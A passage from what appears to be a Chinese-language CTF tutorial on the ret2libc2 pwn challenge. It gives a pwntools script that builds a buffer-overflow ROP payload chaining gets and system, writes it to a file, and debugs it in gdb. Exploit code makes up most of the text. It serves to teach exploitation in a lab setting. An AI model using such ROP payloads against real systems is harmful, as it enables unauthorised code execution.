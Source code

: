 

### 6. gdb输入重定向

我们可以使用python把输入提前写进1.txt，然后在gdb里将输入重定向至1.txt



```python
from pwn import *
gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080

payload=flat([b'a'*112,gets_plt,pop_ebx,buf2,system_plt,b'b'*4,buf2])

with open('./1.txt','wb') as fp:
    fp.write(payload)
print("成功写入")
```



```bash
gdb ./ret2libc2
b *gets
b *0x08048490 #system_plt
b *0x0804843d #pop_ebx
r < ./1.txt #输入重定向至1.txt并重新执行
continue #continue之后esp指向buf2，eip指向pop ebx，符合预期
continue #continue之后esp指向b'b'*4，eip指向system函数，符合预期
```


